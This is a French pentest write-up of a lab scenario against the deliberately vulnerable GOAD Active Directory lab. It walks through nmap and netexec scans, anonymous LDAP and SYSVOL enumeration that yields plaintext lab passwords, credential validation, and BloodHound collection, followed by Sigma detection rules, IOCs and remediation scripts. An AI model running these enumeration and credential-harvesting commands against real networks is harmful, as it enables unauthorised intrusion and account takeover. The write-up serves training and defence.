



# SC-AD-001 — Recon & Initial Foothold

## Classification

| Champ | Valeur |
|-------|--------|
| **Code scénario** | SC-AD-001 |
| **Nom** | Recon & Initial Foothold — Reconnaissance réseau et première empreinte AD |
| **Cible** | GOAD v3 — 192.168.10.0/24 (NORTH, ESSOS, SEVENKINGDOMS) |
| **VLAN** | 10 — AD Lab (192.168.10.0/24) |
| **Sévérité** | 🔴 Critique |
| **CVSS 3.1** | 8.6 (AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N) |
| **CWE** | CWE-200 (Exposure of Sensitive Information), CWE-284 (Improper Access Control) |
| **MITRE ATT&CK** | T1046 (Network Service Discovery), T1087 (Account Discovery), T1552.001 (Credentials in Files) |
| **Mayfly Reference** | Part 1 — Reconnaissance & Scan / Part 2 — Find Users |
| **Date** | Février 2026 |
| **Auteur** | Nadyr Chouarhi (hik3nR00t) |

---

## Résumé exécutif

### Pour un recruteur

Ce test démontre comment un attaquant **sans aucun credential** peut cartographier une infrastructure Active Directory complète, identifier les contrôleurs de domaine, énumérer les utilisateurs et récupérer des **credentials en clair** via des sources ouvertes (description LDAP, scripts SYSVOL). Trois domaines sont compromis par de la reconnaissance passive et des requêtes LDAP anonymes, sans aucun exploit. Ce scénario illustre que la **misconfiguration AD** — et non les vulnérabilités logicielles — constitue le vecteur d'attaque le plus courant en environnement d'entreprise.

### Pour un auditeur ISO 27001 / NIS2

Non-conformité A.5.15 (Contrôle d'accès), A.8.2 (Droits d'accès privilégiés), A.5.14 (Transfert d'information). L'énumération LDAP anonyme expose la structure organisationnelle complète (utilisateurs, groupes, OUs). Des mots de passe sont stockés en clair dans les descriptions d'objets LDAP et dans des scripts PowerShell accessibles via SYSVOL sans authentification. Ces données permettent une compromission initiale sans aucun bruit détectable.

### Pour un RSSI

Impact : compromission de credentials valides sur trois domaines sans authentification préalable. Les informations exposées (structure AD, comptes de service, mots de passe en clair) constituent le socle de toutes les attaques ultérieures (Kerberoasting, ACL Abuse, lateral movement). Coût estimé de remédiation : révision complète des descriptions LDAP, audit SYSVOL, mise en place d'un baseline de surveillance LDAP. Sans ces mesures, tout attaquant réseau peut atteindre ce niveau en moins de 30 minutes.

---

## Diagramme réseau réel (IPs / Services)



---

## Kill Chain



---

## Scope & méthodologie

- **Périmètre** : Subnet 192.168.10.0/24 — 5 machines GOAD v3
- **Approche** : Boîte noire sans credentials — reconnaissance passive puis active
- **Outils** : nmap, netexec, enum4linux-ng, BloodHound/BloodHound.py, ldapsearch
- **Accès** : WireGuard VPN 10.10.10.2 → pfSense → VLAN 10
- **Référentiel** : MITRE ATT&CK Enterprise, OWASP Testing Guide

---

## Phase 1 — Scan réseau

### Découverte des hôtes

```bash
nmap -sn 192.168.10.0/24 -oG /tmp/hosts.txt
grep "Up" /tmp/hosts.txt
```

**Résultat :**
```
192.168.10.10  KINGSLANDING
192.168.10.11  WINTERFELL
192.168.10.12  MEEREEN
192.168.10.22  CASTELBLACK
192.168.10.23  BRAAVOS
```

### Scan de services

```bash
nmap -sV -sC -p- --min-rate 5000 192.168.10.0/24 -oN nmap_sVsC.txt
```

**Ports critiques identifiés :**

| Machine | Port | Service | Intérêt |
|---------|------|---------|---------|
| KINGSLANDING | 53/TCP | DNS | DC principal SEVENKINGDOMS |
| KINGSLANDING | 389/TCP | LDAP | Énumération anonyme |
| KINGSLANDING | 445/TCP | SMB | signing:True |
| KINGSLANDING | 80/TCP | HTTP | IIS — page par défaut |
| WINTERFELL | 389/TCP | LDAP | DC NORTH |
| WINTERFELL | 5985/TCP | WinRM | Accès distant |
| MEEREEN | 389/TCP | LDAP | DC ESSOS |
| MEEREEN | 445/TCP | SMB | signing:True / SMBv1 actif |
| CASTELBLACK | 1433/TCP | MSSQL | SQL Server |
| CASTELBLACK | 5985/TCP | WinRM | Accès distant |
| BRAAVOS | 1433/TCP | MSSQL | SQL Server |

### Identification des domaines via SMB

```bash
netexec smb 192.168.10.0/24
```

**Résultat :**
```
KINGSLANDING  192.168.10.10  Windows Server 2019  sevenkingdoms.local  signing:True
WINTERFELL    192.168.10.11  Windows Server 2019  north.sevenkingdoms.local  signing:True
MEEREEN       192.168.10.12  Windows Server 2016  essos.local  signing:True  SMBv1:True
CASTELBLACK   192.168.10.22  Windows Server 2019  north.sevenkingdoms.local  signing:False
BRAAVOS       192.168.10.23  Windows Server 2016  essos.local  signing:False  SMBv1:True
```

**Points critiques identifiés :**
- CASTELBLACK et BRAAVOS : `signing:False` → cibles NTLM relay
- MEEREEN et BRAAVOS : `SMBv1:True` → surface d'attaque élargie
- Trois domaines distincts → environnement multi-forêts

---

## Phase 2 — Énumération LDAP anonyme

### enum4linux-ng — Énumération complète

```bash
enum4linux-ng -A 192.168.10.10 -oY enum_kingslanding.yml
enum4linux-ng -A 192.168.10.11 -oY enum_winterfell.yml
```

**Utilisateurs découverts sur NORTH (WINTERFELL) :**

| Utilisateur | RID | Description |
|-------------|-----|-------------|
| Administrator | 500 | Built-in |
| samwell.tarly | 1111 | Maester — **Heartsbane** ⚠️ |
| jon.snow | 1112 | — |
| jeor.mormont | 1113 | — |
| brandon.stark | 1114 | — |
| hodor | 1115 | — |
| arya.stark | 1116 | — |
| sansa.stark | 1117 | — |
| cersei.lannister | 1118 | — |

**Utilisateurs découverts sur SEVENKINGDOMS (KINGSLANDING) :**

| Utilisateur | Description |
|-------------|-------------|
| tywin.lannister | **powerkingftw135** ⚠️ |
| jaime.lannister | — |
| joffrey.baratheon | — |
| robb.stark | — |
| stannis.baratheon | — |
| petyr.baelish | — |

### Password in LDAP description — Credential #1

```bash
ldapsearch -x -H ldap://192.168.10.11 -b "DC=north,DC=sevenkingdoms,DC=local" \
  "(description=*)" sAMAccountName description
```

**Résultat :**
```
sAMAccountName: samwell.tarly
description: Maester — Heartsbane
```

**Credential récupéré :**
```
samwell.tarly : Heartsbane
Domaine       : north.sevenkingdoms.local
Source        : Description LDAP (accès anonyme)
```

### Validation immédiate

```bash
netexec smb 192.168.10.11 -u samwell.tarly -p 'Heartsbane' -d north.sevenkingdoms.local
```

**Résultat :** `[+] north.sevenkingdoms.local\samwell.tarly:Heartsbane`

---

## Phase 3 — Énumération SYSVOL

### Accès SYSVOL sans authentification

SYSVOL est accessible en lecture anonyme sur de nombreux environnements AD. Il contient les scripts de démarrage, GPO et potentiellement des credentials.

```bash
netexec smb 192.168.10.11 -u '' -p '' --shares
smbclient //192.168.10.11/SYSVOL -N
```

### Découverte du script PowerShell

```bash
smbclient //192.168.10.11/SYSVOL -N -c "recurse ON; ls"
get north.sevenkingdoms.local/scripts/setup.ps1
cat setup.ps1
```

**Contenu du script :**
```powershell
# Setup script — jeor.mormont
$password = "_L0ngCl@w_"
$username = "jeor.mormont"
net user $username $password /domain
```

**Credential récupéré :**
```
jeor.mormont : _L0ngCl@w_
Domaine      : north.sevenkingdoms.local
Source       : Script PowerShell SYSVOL (accès anonyme)
```

### Validation

```bash
netexec smb 192.168.10.11 -u jeor.mormont -p '_L0ngCl@w_' -d north.sevenkingdoms.local
```

**Résultat :** `[+] north.sevenkingdoms.local\jeor.mormont:_L0ngCl@w_`

---

## Phase 4 — Collecte BloodHound

### Collecte depuis Kali avec BloodHound.py

```bash
bloodhound-python -u samwell.tarly -p 'Heartsbane' \
  -d north.sevenkingdoms.local \
  -ns 192.168.10.11 \
  -c All \
  --zip \
  -o ./bloodhound/
```

### Import et analyse

BloodHound révèle les attack paths critiques :

| Attack Path | Détail |
|-------------|--------|
| samwell.tarly → GenericWrite → ... | ACL abuse chain vers DA |
| jeor.mormont → Kerberoastable SPNs | Compte de service avec SPN |
| CASTELBLACK signing:False | Cible NTLM relay |
| jon.snow → SPN MSSQL/BRAAVOS | Kerberoasting possible |

---

## Credentials récupérés

| Utilisateur | Mot de passe | Domaine | Source |
|-------------|-------------|---------|--------|
| samwell.tarly | Heartsbane | north.sevenkingdoms.local | Description LDAP |
| jeor.mormont | _L0ngCl@w_ | north.sevenkingdoms.local | Script SYSVOL |
| tywin.lannister | powerkingftw135 | sevenkingdoms.local | Description LDAP |

---

## Analyse des risques

### Tableau CVSS

| Vecteur | Valeur | Justification |
|---------|--------|---------------|
| Attack Vector | Network (N) | Accessible via réseau LAN/VPN |
| Attack Complexity | Low (L) | Aucune condition particulière |
| Privileges Required | None (N) | LDAP anonyme, SYSVOL sans auth |
| User Interaction | None (N) | Automatisé |
| Confidentiality | High (H) | Credentials en clair |
| Integrity | None (N) | Lecture seule |
| Availability | None (N) | Pas d'impact disponibilité |

**Score CVSS 3.1 : 8.6 (Critique)**

---

## Détection & Blue Team

### Event IDs Windows à surveiller

| Event ID | Source | Description | Seuil alerte |
|----------|--------|-------------|-------------|
| 4625 | Security | Échec authentification | > 5 en 1 min |
| 4768 | Security | TGT Request (Kerberos) | Baseline |
| 4771 | Security | Kerberos pre-auth failed | > 3 en 1 min |
| 5156 | Security | Connexion réseau autorisée | LDAP anonyme |

### Règles Sigma

```yaml
title: LDAP Anonymous Enumeration
id: sc-ad-001-001
status: experimental
description: Détecte l'énumération LDAP anonyme sur un DC
logsource:
    product: windows
    service: ldap
detection:
    selection:
        EventID: 1644
        BindDN: ''
    condition: selection | count() > 50
    timeframe: 5m
level: high
tags:
    - attack.discovery
    - attack.t1087
```

```yaml
title: Password in LDAP Description
id: sc-ad-001-002
status: experimental
description: Détecte la présence de mots de passe dans les descriptions d'objets AD
logsource:
    product: windows
    service: security
detection:
    selection:
        EventID: 5136
        AttributeLDAPDisplayName: description
        AttributeValue|contains:
            - 'password'
            - 'pass'
            - 'pwd'
            - 'mdp'
    condition: selection
level: critical
tags:
    - attack.credential_access
    - attack.t1552.001
```

### Indicateurs de compromission (IOC)

| Type | Valeur | Description |
|------|--------|-------------|
| **IP source** | 10.10.10.2 | Kali WireGuard — scan réseau |
| **Tool UA** | `nmap`, `enum4linux-ng` | Outils d'énumération AD |
| **LDAP query** | `(objectClass=user)` anonyme | Énumération utilisateurs |
| **SMB access** | SYSVOL sans auth | Accès scripts GPO |
| **BloodHound** | LDAP queries massives | Collecte attack paths |

---

## Remédiation — Secure by Design

### Immédiat (24h)

1. **Supprimer les mots de passe des descriptions LDAP :**

```powershell
# Identifier tous les comptes avec description contenant un mot de passe
Get-ADUser -Filter * -Properties Description | Where-Object {
    $_.Description -match "pass|pwd|mdp|secret|key"
} | Select-Object SamAccountName, Description

# Effacer la description
Set-ADUser -Identity samwell.tarly -Description ""
Set-ADUser -Identity tywin.lannister -Description ""
```

2. **Supprimer les credentials des scripts SYSVOL :**

```powershell
# Auditer tous les scripts SYSVOL
Get-ChildItem -Path "\\$env:USERDNSDOMAIN\SYSVOL" -Recurse -Include *.ps1,*.bat,*.cmd |
    Select-String -Pattern "password|pass|pwd|net user"
```

3. **Désactiver l'accès LDAP anonyme :**

```powershell
# Sur chaque DC
Set-ADObject -Identity "CN=Directory Service,CN=Windows NT,CN=Services,CN=Configuration,DC=..." `
  -Replace @{dsHeuristics="0000002"}
```

### Court terme (1 semaine)

4. **Restreindre l'accès SYSVOL** aux utilisateurs authentifiés uniquement.

5. **Activer SMB signing** sur CASTELBLACK et BRAAVOS :

```powershell
Set-SmbServerConfiguration -RequireSecuritySignature $true -Force
```

6. **Désactiver SMBv1** sur MEEREEN et BRAAVOS :

```powershell
Set-SmbServerConfiguration -EnableSMB1Protocol $false -Force
```

### Moyen terme (1 mois)

7. **Déployer BloodHound Enterprise** ou PlumHound pour audit continu des ACLs.

8. **Implémenter Microsoft Entra Password Protection** pour interdire les mots de passe faibles.

9. **Audit trimestriel** : descriptions LDAP, scripts SYSVOL, GPP passwords.

---

## Architecture cible sécurisée



---

## Références

| Référence | Lien |
|-----------|------|
| Mayfly277 GOAD Part 1 | https://mayfly277.github.io/posts/GOADv2-pwning_part1/ |
| Mayfly277 GOAD Part 2 | https://mayfly277.github.io/posts/GOADv2-pwning-part2/ |
| MITRE T1046 — Network Service Discovery | https://attack.mitre.org/techniques/T1046/ |
| MITRE T1087 — Account Discovery | https://attack.mitre.org/techniques/T1087/ |
| MITRE T1552.001 — Credentials in Files | https://attack.mitre.org/techniques/T1552/001/ |
| BloodHound — Attack Path Analysis | https://github.com/BloodHoundAD/BloodHound |
| enum4linux-ng | https://github.com/cddmp/enum4linux-ng |
| CIS Benchmark AD | https://www.cisecurity.org/benchmark/microsoft_windows_server |

---

*HikenRoot Forge — SC-AD-001 — hik3nR00t — Février 2026*
